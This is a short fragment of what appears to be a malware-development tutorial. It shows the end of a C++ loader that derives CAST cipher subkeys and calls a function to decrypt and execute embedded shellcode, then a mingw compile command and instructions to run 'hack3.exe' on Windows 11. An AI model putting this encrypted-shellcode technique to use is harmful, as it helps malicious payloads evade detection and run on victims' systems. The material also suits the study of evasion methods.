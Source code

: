 ```cpp

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  cast_decrypt_and_execute_shellcode(padded, sizeof(padded), subkeys);

  return 0;
}
```

### demo 3

Compile this version:    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermission
```

![cryptography](/assets/images/131/2024-07-28_17-21.png){:class="img-responsive"}      

Then, run this version on `windows 11 x64`:    

```powershell
.\hack3.exe
```
